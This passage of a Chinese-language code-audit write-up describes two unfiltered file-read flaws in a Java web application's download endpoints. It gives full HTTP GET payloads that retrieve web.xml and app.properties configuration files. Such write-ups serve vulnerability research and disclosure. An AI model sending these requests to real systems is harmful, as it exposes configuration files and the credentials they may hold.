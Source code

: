 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWtmLWbcXTQFwjdstrqADcKsJdziaVeP1JKlvdxByGYLxmZ3sjQUEh1hg/640?wx_fmt=png&from=appmsg "")  
  
成功绕过  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWmWeiaVibyDD2RhNmWcevWTQhA7p4Qs62lEhPXF7FQ5bJwohEHibKTzdqg/640?wx_fmt=png&from=appmsg "")  
  
‍  
# 2、文件读取1  
  
全局搜索download  
关键字，这里的函数fileDownload.do  
请求时需要带参数fileId  
，该参数没有任何的过滤，用getRootPath  
获取请求的路径，之后在用loadFile  
加载该路径。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWtBPO3iciad1Q3iaicaqBSsOAyeHwgvCIUNKhnS8gzP0AhPEOAZZu53fg7w/640?wx_fmt=jpeg&from=appmsg "")  
  
payload：  
```
GET /manage/personnel/fileDownload.do?fileId=/WEB-INF/web.xml&recoToken=ZuZBOrvLG8M HTTP/1.1Host: xUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept: */*Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWibO2ibXw3b1FuRibMOnxTG5Tiby9d862SvKlhCACAt37OLzibTt32yBrtAw/640?wx_fmt=png&from=appmsg "")  
  
‍  
# 3、文件读取2  
  
参数imgDownload.do  
，这里也是直接请求路径，之后读取该路径的数据。这里有个主意的是参数getCaptureDirectoryPhysicalPath  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWJvUI0lsoVTzj6rR2LPxeiaibng7XnxD2Qx6zhGichCK9OBq3jWyg2S4UQ/640?wx_fmt=png&from=appmsg "")  
  
跟进getCaptureDirectoryPhysicalPath  
，这里重要的是基础的路径后面加了三个../  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWMh5mAnolx5Bovgc1IMnFtHlQYicnYBcR2REy4PCppuryMX3v1rp18ibw/640?wx_fmt=jpeg&from=appmsg "")  
  
那这里的跳转的路径直接到/manage 目录下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWTMUZ1Zn73Q5s6IVX0Al6qhpyX6p2nVUdqafVkLicuce5XIMibx6r8nrw/640?wx_fmt=png&from=appmsg "")  
  
‍  
  
那么请求的敏感文件路径payload  
为  
```
GET /manage/resourceUpload/imgDownload.do?filePath=/manage/WEB-INF/classes/app.properties&recoToken=ZuZBOrvLG8M HTTP/1.1Host: xUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept: */*Connection: close
```  
  